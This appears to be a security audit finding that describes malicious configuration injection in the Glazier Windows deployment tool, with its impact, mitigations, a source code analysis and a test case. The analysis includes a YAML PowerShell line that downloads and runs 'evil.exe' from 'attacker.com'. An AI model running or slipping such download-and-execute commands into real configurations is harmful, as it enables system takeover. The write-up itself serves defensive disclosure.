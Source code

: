 - Vulnerability Name: Malicious Configuration Injection
- Description:
  - An attacker compromises the web server hosting Glazier's YAML configuration files.
  - The attacker modifies a configuration file (e.g., `build.yaml`) to inject malicious actions.
  - When a target Windows system boots into WinPE and runs Glazier, it fetches the compromised configuration file over HTTPS.
  - Glazier parses the malicious configuration file and executes the injected actions on the target system.
  - These actions can include downloading and executing arbitrary executables, running PowerShell scripts, modifying the registry, or any other actions supported by Glazier.
  - For example, the attacker could inject an `Execute` action to download and run a reverse shell, granting them unauthorized access to the target system.
- Impact:
  - Critical. Successful exploitation allows the attacker to gain complete control over the target Windows system during the deployment process.
  - This can lead to data theft, malware installation, system disruption, or use of the compromised system as a foothold in the network.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations:
  - HTTPS is enforced for fetching configuration files, providing encryption in transit and server authentication if certificates are properly validated. However, this does not prevent attacks if the web server itself is compromised.
- Missing Mitigations:
  - **Configuration File Signing/Verification:** Implement a mechanism to digitally sign configuration files. Glazier should verify the signature before parsing and executing the configuration. This would ensure that only authorized configurations are processed.
  - **Principle of Least Privilege on Web Server:** Harden the web server hosting configuration files and apply the principle of least privilege to minimize the impact of a web server compromise. Regularly audit and patch the web server.
  - **Input Validation and Sanitization in Actions (Defense in Depth):** While the primary vulnerability is configuration injection, actions that execute commands or scripts should ideally have input validation to prevent potential command injection if configurations are ever dynamically generated or if there are vulnerabilities in the configuration parsing logic itself (as a defense in depth measure). However, in the current context where configurations are static YAML files, signature verification is the more pertinent mitigation.
- Preconditions:
  - The attacker must be able to compromise the web server hosting Glazier's YAML configuration files. This could be achieved through various web server vulnerabilities, weak credentials, or insider threats.
  - A target Windows system must be booting and configured to use Glazier and fetch configurations from the compromised web server.
- Source Code Analysis:
  - Glazier's core logic resides in `autobuild.py`. The `ConfigBuilder` class in `glazier/lib/config/builder.py` is responsible for fetching and parsing configuration files. The `ConfigRunner` class in `glazier/lib/config/runner.py` executes the actions defined in the configuration.
  - The `ConfigBuilder.Start()` function fetches the root `build.yaml` and recursively includes other YAML files as defined in the configuration.
  - The configuration files are parsed using PyYAML. PyYAML itself has had security vulnerabilities in the past (deserialization issues), but assuming a reasonably up-to-date PyYAML version is used, the primary risk is the content of the YAML files themselves if they are maliciously modified.
  - The `ConfigRunner.Start()` function reads the task list (which is built from the YAML configurations) and executes each action in order.
  - Actions are defined in `glazier/lib/actions/`. Actions like `Execute`, `PSCommand`, `PSScript`, `RegAdd`, `RegDel`, `GooGetInstall`, `CopyFile`, `CopyDir`, `Driver`, `UpdateMSU`, `Unzip`, `Get`/`pull` are implemented to perform various system operations based on the parameters provided in the configuration.
  - **Vulnerability Trigger:** An attacker modifies a YAML file on the web server, for example, `/config/build.yaml`. They inject a malicious `Execute` action:

```yaml
controls:
  - Execute:
    - ['powershell.exe -Command "Invoke-WebRequest -Uri http://attacker.com/evil.exe -OutFile C:\\evil.exe; C:\\evil.exe"']
```

  - When a Glazier client boots and processes this modified `build.yaml`, the `Execute` action will be added to the task list.
  - `ConfigRunner` will then execute this action, causing the PowerShell command to be run. This command downloads `evil.exe` from `attacker.com` and executes it on the target system.

- Security Test Case:
  1. Setup a Glazier environment with a web server hosting configuration files.
  2. Create a test configuration `build.yaml` that includes a benign action, e.g., creating a directory.
  3. Boot a test Windows VM using Glazier and verify that the benign action from the original `build.yaml` is executed successfully.
  4. Compromise the web server (for testing purposes, this can be simulated by gaining access to the configuration files).
  5. Modify the `build.yaml` file on the web server and inject a malicious `Execute` action, for example:

```yaml
controls:
  - Execute:
    - ['powershell.exe -Command "New-Item -ItemType Directory -Path C:\\pwned"']
```
  6. Boot another test Windows VM using Glazier, pointing to the modified configuration on the (simulated) compromised web server.
  7. After the Glazier process completes (or is expected to reach the malicious action), check the target VM.
  8. **Verification:** Observe that the directory `C:\pwned` has been created on the target system, demonstrating successful execution of the injected malicious action. In a real attack scenario, the injected action would be more harmful, like downloading and executing malware.